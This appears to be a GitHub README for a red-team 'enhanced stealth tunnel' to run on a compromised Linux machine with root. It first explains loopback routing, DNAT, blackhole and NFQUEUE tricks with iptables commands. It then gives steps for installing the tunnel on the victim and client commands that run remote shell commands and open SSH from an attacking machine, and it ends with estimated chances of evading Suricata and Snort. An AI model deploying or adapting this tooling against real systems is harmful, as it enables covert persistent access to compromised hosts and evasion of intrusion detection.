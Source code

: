 # blackhole-cryptotunnel
Enhanced Stealth Tunnel for Linux (Red Team Ops on compromised machine with root).

# Based on this article: Hidden routing via lo: why send traffic to yourself.
The lo (loopback) interface is not just about 127.0.0.1 and localhost.
If desired, you can use it to arrange non-standard routing: redirect packets to yourself, mask services, or isolate experiments.
Why direct traffic to lo at all?
Test the routing behavior without going online.
Disguise services: they listen to lo, and access to them is via DNAT.
Use as a "black hole" with logging capability.
Make local hairpin NAT for containers and VMs.
Collect traffic for analysis without releasing it outside.

Route via lo, but not in 127.0.0.1
Let's say we have an internal IP: 10.10.10.10, which is not configured anywhere on the interface. Adding a route:
ip route add 10.10.10.10 dev lo
Now any package by 10.10.10.10 will go to loopback. If you start a server listening to this IP, it will receive such packets:
ip addr add 10.10.10.10/32 dev lo nc -l 10.10.10.10 1234
DNAT + lo = local service accessible from outside
iptables -t nat -A PREROUTING -i eth0 -p tcp --dport 8080
-j DNAT --to-destination 10.10.10.10:1234

The application is still listening to lo:1234, but it is available on the external port eth0:8080.

Blackhole with logs:
Instead of ip route, add blackhole — we'll send everything to lo and log in:

ip route add 198.51.100.0/24 dev lo iptables -A INPUT -d 198.51.100.0/24 -j LOG --log-prefix "lo-drop: " iptables -A INPUT -d 198.51.100.0/24 -j DROP

Traffic processing via lo + NFQUEUE

Do I need an interception in userspace? We will pass packets through lo, even if they are not for 127.0.0.1.:

ip route add 172.16.99.99 dev lo iptables -A INPUT -d 172.16.99.99 -j NFQUEUE --queue-num 0

Now you can process them in your script via nfqueue.

# On compromised machine:
Copy and launch a file: 
crypto_tunnel.py & enhanced_stealth_tunnel.py in /opt/enhanced-stealth-tunnel 
cd /opt/enhanced-stealth-tunnel
python3 enhanced_stealth_tunnel.py --generate-config

# Editing enhanced_tunnel_config.json
python3 enhanced_stealth_tunnel.py -c enhanced_tunnel_config.json

or launch ./enhanced_install.sh

# 2. From the attacking machine:
launch a file:
python3 enhanced_client.py 192.168.1.50 -k tunnel.key --shell "whoami"
python3 enhanced_client.py 192.168.1.50 -k tunnel.key --ssh 198.51.100.10

# A realistic estimate of the probability of detection
Basic tunnel configuration:

    Suricata: ~35-45% probability of detection
    Snort: ~25-35% probability of detection
    Combined risk: ~55-65%

